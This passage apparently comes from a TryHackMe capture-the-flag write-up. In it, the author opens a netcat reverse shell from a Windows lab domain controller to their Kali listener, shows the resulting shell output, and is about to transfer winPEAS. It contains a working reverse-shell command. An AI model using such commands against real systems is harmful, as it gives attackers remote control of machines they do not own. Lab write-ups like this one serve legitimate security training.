 ![nc.png](../assets/enterprise_assets/nc.png)

And then run: `C:\Users\bitbucket>nc.exe -e cmd.exe 10.6.61.45 443`

Which gets me a shell back on my listener:

```text
┌──(ryan㉿kali)-[~/THM]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.118.162] 51076
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\bitbucket>hostname
hostname
LAB-DC

C:\Users\bitbucket>whoami
whoami
lab-enterprise\bitbucket
```

This step is not required at all, and some people would actually prefer to stay working in RDP, this is just my personal preference.

From here I'll go ahead and grab winPEAS from my machine and transfer it to the target:
